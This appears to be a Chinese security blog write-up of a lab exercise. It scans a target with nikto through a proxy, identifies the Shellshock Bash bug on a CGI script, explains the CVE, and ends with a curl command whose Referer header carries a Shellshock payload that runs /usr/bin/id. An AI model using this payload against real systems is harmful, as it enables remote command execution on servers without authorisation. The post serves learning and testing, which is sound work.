
#### 免责声明


本博客提供的所有信息仅供学习和研究目的，旨在提高读者的网络安全意识和技术能力。请在合法合规的前提下使用本文中提供的任何技术、方法或工具。如果您选择使用本博客中的任何信息进行非法活动，您将独自承担全部法律责任。本博客明确表示不支持、不鼓励也不参与任何形式的非法活动。


如有侵权请联系我第一时间删除


## nikto扫描


highlighter\- armasm
```
sudo nikto -h ip -useproxy http://ip:port
```

发现存在Shellshock漏洞，又称bashdoor `利用版本`：bash4\.1版本之前都存在这个漏洞


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231225078-957253874.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231225078-957253874.png)


扫描结果： 可能存在shellshock漏洞


highlighter\- awk
```
/cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```

详情见http://cve.mitre.org/cgi\-bin/cvename.cgi?name\=CVE\-2014\-6278 ，这是一个GNU Bash 环境变量命令注入漏洞 ，我对这个漏洞了解比较少，所以去找了几篇文章


[ShellShock（CVE\-2014\-6271）\-CSDN博客](https://github.com)


[Shellshock 漏洞 （CVE\-2014\-6271\) \- 知乎](https://github.com)


GNU Bash 4\.3及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行Shell命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用Bash Shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在Shell被调用后会被立即执行。这个漏洞的英文是：ShellShock，中文名被XCERT命名为：破壳漏洞。该漏洞在Red Hat、CentOS、Ubuntu 、Fedora 、Amazon Linux 、OS X 10\.10中均拥有存在CVE\-2014\-6271（即“破壳”漏洞）漏洞的Bash版本，同时由于Bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用Bash的Unix、Linux、Mac OS X，而针对这些操作系统管理下的数据均存在高危威胁。漏洞的利用方式会通过与Bash交互的多种应用展开，包括HTTP、OpenSSH、DHCP等


## Shellshock


### 验证shellshock存在


highlighter\- awk
```
sudo curl -v --proxy http://ip:3128 http://ip/cgi-bin/status -H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```
